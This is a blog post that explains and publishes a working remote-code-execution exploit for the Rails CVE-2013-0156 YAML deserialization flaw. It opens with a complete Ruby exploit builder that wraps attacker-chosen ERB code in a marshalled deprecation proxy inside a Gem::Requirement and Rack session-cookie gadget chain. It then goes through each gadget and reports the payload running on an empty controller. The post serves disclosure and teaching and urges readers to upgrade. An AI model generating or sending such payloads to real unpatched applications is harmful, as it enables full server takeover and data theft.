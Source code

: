 # Rails 3.2.10 Remote Code Execution

I was originally going to wait for a week after 3.2.11 was released fixing [CVE-2013-0156](https://groups.google.com/group/rubyonrails-security/browse_thread/thread/eb56e482f9d21934), but since the cat is already out of the bag and there's now a Metasploit module for this vulnerability, I guess it's ok to discuss how it works.

Reminder: If you *haven't* upgraded your app yet, **take it down *now***. Your app **will** get pwned if you don't.

So without further ado, here's the proof of concept I cooked up in collaboration with [espes](https://github.com/espes) and [chendo](http://twitter.com/chendo). It's a bit more complex than the other ones floating around, but it has the advantage of being self-executing. There are simpler self-executing exploits, but I'm going to talk about the exploit we came up with a few days ago instead because, well, it's ours!

```ruby
require "base64"
require "erb"

if ARGV.empty?
  puts "Usage: exploit_builder.rb <source_file>"
  exit!
end

class ActiveSupport
  class Deprecation
    class DeprecatedInstanceVariableProxy
      def initialize(instance, method)
        @instance = instance
        @method = method
      end
    end
  end
end

erb = ERB.allocate
erb.instance_variable_set :@src, File.read(ARGV.first)

depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result

payload = Base64.encode64(Marshal.dump(depr)).gsub("\n", "")

puts <<-PAYLOAD.strip.gsub("\n", "&#10;")
<id type="yaml">
---
!ruby/object:Gem::Requirement
requirements:
  - !ruby/object:Rack::Session::Abstract::SessionHash
      env:
        HTTP_COOKIE: "a=#{payload}"
      by: !ruby/object:Rack::Session::Cookie
        coder: !ruby/object:Rack::Session::Cookie::Base64::Marshal {}
        key: a
        secrets: []
      exists: true
</id>
PAYLOAD
```

(note: I encourage you to refer back to the YAML as you follow the explanation)

We reached straight for ERB as our weapon of choice in executing our code. The problem with ERB is that it only evals the string in its `@src` attribute when either the `result` or `run` method is called. There's not much code out there that calls either of these methods on an object in `param`, so we needed to figure out a way to make sure one of these methods is called.

I came across a curious class in ActiveSupport called [`ActiveSupport::Deprecation::InstanceVariableProxy`](https://github.com/rails/rails/blob/e618adbcabe59eaccfab1f721eb3cf1e915e012e/activesupport/lib/active_support/deprecation/proxy_wrappers.rb#L78-94). While it doesn't appear to be used anywhere anymore (I believe it was used during the transition from `@params` to `params` in controllers), it still sticks around to this day.

One of the more interesting features of this class is how it handles `method_missing`. The definition of `method_missing` is in the superclass, `ActiveSupport::Deprecation::DeprecationProxy`, and it looks like this:

```ruby
def method_missing(called, *args, &block)
  warn caller, called, args
  target.__send__(called, *args, &block)
end
```

The `target` method it calls is defined in `InstanceVariableProxy` itself, and looks like this:

```ruby
def target
  @instance.__send__(@method)
end
```

Uh oh. This means if we can force an instance of this class into `params` and set `@instance` to an ERB object with the code of our choosing and `@method` to `"result"`, we can get remote code execution! Simple enough right, maybe something like this?

```yaml
--- !ruby/object:ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy
  method: result
  instance: !ruby/object:ERB
    src: "puts 'pwned'; puts `uname -a`; exit!"
```

Unfortunately, actually getting Rails to deserialize this YAML was the hard part. As a proxy class, `DeprecationProxy` undefines all but a few of its instance methods. This means that when Psych tries to do anything with the newly allocated instance of `DeprecatedInstanceVariableProxy`, it blows up in our faces.

We did however find that we could `Marshal.dump` and `Marshal.load` these two objects as much as we liked. Since `Marshal` is written in C, it uses Ruby's C API directly and is able to deserialize properly even without the right methods on the object it's trying to deserialize.

This is the part where espes went away for a while to hunt for an alternate way to load this object up. When he came back just a few hours later, he had made the most awesome discovery.

If you take a look at [`Rack::Session::Abstract::SessionHash`](https://github.com/rack/rack/blob/63b5adf0d95e6d3f0f549ec87e9afbc21e934d3c/lib/rack/session/abstract/id.rb#L23), you'll notice it implements a few collection-like methods such as `[]`, `[]=`, `has_key?` and friends. Whenever any of these methods is called, it calls `load_for_read!` on itself. `load_for_read!` looks like this:

```ruby
def load_for_read!
  load! if !loaded? && exists?
end
```

The `exists?` check is the reason the `@exists` ivar needs to be manually set to `true` in the YAML. We don't worry about setting `@loaded` to anything as uninitialized instance variables default to `nil`.

Once these conditions are satisified, `load!` is called, which looks like this:

```ruby
def load!
  @id, session = @by.send(:load_session, @env)
  @data = stringify_keys(session)
  @loaded = true
end
```

In this case, we only care about the first line. By the time execution gets to the second, we will have already run any code we need to run. This method uses the object in `@by` to load the session from the passed env hash. The key thing is that we can control both of these instance variables.

We set `@env` to `{"HTTP_COOKIE" => "a=<payload>"}`, where `<payload>` is the marshalled and base64 encoded `DeprecatedInstanceVariableProxy` instance. We also set `@by` to an instance of `Rack::Session::Cookie`. Here's what the `load_session` and method of that class looks like:

```ruby
def load_session(env)
  data = unpacked_cookie_data(env)
  data = persistent_session_id!(data)
  [data["session_id"], data]
end
```

The first line calls `unpacked_cookie_data` with the env hash we control as the parameter. The implementation of `unpacked_cookie_data` is a little longer, but still pretty straight forward:

```ruby
def unpacked_cookie_data(env)
  env["rack.session.unpacked_cookie_data"] ||= begin
    request = Rack::Request.new(env)
    session_data = request.cookies[@key]

    if @secrets.size > 0 && session_data
      session_data, digest = session_data.split("--")
      session_data = nil unless digest_match?(session_data, digest)
    end

    coder.decode(session_data) || {}
  end
end
```

This method unpacks the env hash we pass into a `Rack::Request` object and fetches the value of the cookie named by `@key` (which we set to `"a"`). It then checks that this cookie is signed if `@secrets.size` is greater than zero. Luckily, we can thwart this check by setting `@secrets` to an empty array.

*Finally*, after all that song and dance, our base64'd and marshalled data is decoded by `Rack::Session::Cookie::Base64::Marshal` (this class's implementation is as obvious as you would expect, so I won't bother including it here). As soon as any method is called on the object returned from `unpacked_cookie_data`, `DeprecatedInstanceVariableProxy` will fire off a call to the `result` method on our own 100% attacker controlled ERB object.

Astute readers will notice that although we have found a path from an innocent looking method like `has_key?` or `each` to code execution, we still rely on Rails or the controller to call one of these methods to trigger our attack. This is where `Gem::Requirement` comes in.

Whenever Psych deserializes a Ruby object, it calls the `init_with` method if it exists. We are able to abuse this initialization to trigger our exploit as soon as our payload is deserialized with the help of `Gem::Requirement#init_with`.

This method forwards on to `#yaml_initialize` for backwards compatibility. `#yaml_initialize` does a bit of boring initialize-ish stuff before calling `#fix_syck_default_key_in_requirements`:

```ruby
def yaml_initialize(tag, vals) # :nodoc:
  vals.each do |ivar, val|
    instance_variable_set "@#{ivar}", val
  end

  Gem.load_yaml
  fix_syck_default_key_in_requirements
end
```

This innocent little method is the final link in our chain and lets us achieve automatic remote code execution. Let's take a look at the code:

```ruby
def fix_syck_default_key_in_requirements
  Gem.load_yaml

  # Fixup the Syck DefaultKey bug
  @requirements.each do |r|
    if r[0].kind_of? Gem::SyckDefaultKey
      r[0] = "="
    end
  end
end
```

Bingo! It loops over `@requirements` and calls `#[]` on each element. Since `#[]` is one of the methods that triggers `Rack::Session::Abstract::SessionHash`'s lazy deserialization of our fake session cookie, we can simply set `@requirements` to an array with a single element - our malicious instance of `SessionHash` - to have our own Ruby code execute whenever our YAML is deserialized.

The beauty of triggering an RCE on deserialization is that we don't depend on any of the app's code at all. We don't depend on them passing our object into ActiveRecord or doing any other things that might limit the effectiveness of this exploit.

To show just how dangerously effective this is, here's what happens when I send a payload generated by the exploit builder script to an **empty** controller:

![](https://i.imgur.com/kPxcWWe.png)

Enjoy.

(and don't forget to update your apps if you haven't already!)
